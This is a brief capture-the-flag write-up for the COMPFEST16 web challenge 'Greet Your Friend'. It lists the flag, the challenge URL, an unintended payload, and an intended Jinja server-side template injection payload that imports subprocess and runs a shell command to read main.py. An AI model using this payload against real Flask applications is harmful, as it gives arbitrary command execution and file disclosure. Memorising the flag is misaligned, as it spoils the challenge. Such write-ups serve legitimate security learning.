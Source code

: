 # Title
Greet Your Friend (500 points)

# Flag
COMPFEST16{b3St_fw3nDS_for3v3R_dcb3980048}

# Description
Hello COMPFEST16! May your day be filled with joy and positivity!

http://challenges.ctf.compfest.id:20009

# Author
k3ng

# Solution
i try some payload and then the web is suddenly redirect to the error page and somehow i found the flag on the error page (unintended bug)

payload:
```python
{{ GREETINGS[4] }}
```

intended payload:
```python
{{ url_for.__globals__.__builtins__.__import__('subprocess').Popen('cat main.py', shell=True,stdout=-1).communicate()}} 
```